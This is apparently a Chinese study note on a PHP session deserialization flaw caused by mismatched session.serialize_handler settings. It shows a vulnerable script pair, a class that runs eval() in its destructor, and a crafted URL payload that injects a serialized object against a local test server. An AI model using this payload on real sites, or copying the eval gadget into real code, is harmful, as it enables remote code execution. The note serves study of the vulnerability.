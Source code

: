 # Session的不同解析方式

## 参考

- https://secure.php.net/manual/zh/session.configuration.php#ini.session.serialize-handler
- https://blog.spoock.com/2016/10/16/php-serialize-problem/

## 分析
PHP中的Session的实现是没有的问题，但在php.ini中session.serialize_handler可以设置序列化/解序列化的处理器名字，默认处理引擎是PHP，另外还有2个。
- `php_binary`：键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- `php`：键名+竖线+经过serialize()函数序列处理的值
- `php_serialize(PHP>5.5.4)`：经过serialize()函数序列化处理的值

![](../images/19-7-10_PHP_Session不同解析方式_1.png)
在php中，`session.serialize_handler`可以通过`ini_set('session.serialize`
`_handler','xxxxx')`来设置。如果通过`ini_set`函数使得PHP处理session时，序列化和反序列化的处理器不同，那么就可能造成漏洞。

## 利用

**index.php**

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
```

us2.php
```php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon {
    var $hi;
    function __construct(){
        $this->hi = 'phpinfo();';
    }
    
    function __destruct() {
         eval($this->hi);
    }
}
```

访问

```php
http://127.0.0.1/?a=|O:5:%22lemon%22:1:{s:2:%22hi%22;s:14:%22echo%20%22spoock%22;%22;}
```

然后访问

```php
http://127.0.0.1/us2.php
```


![](../images/19-7-10_PHP_Session不同解析方式_2.png)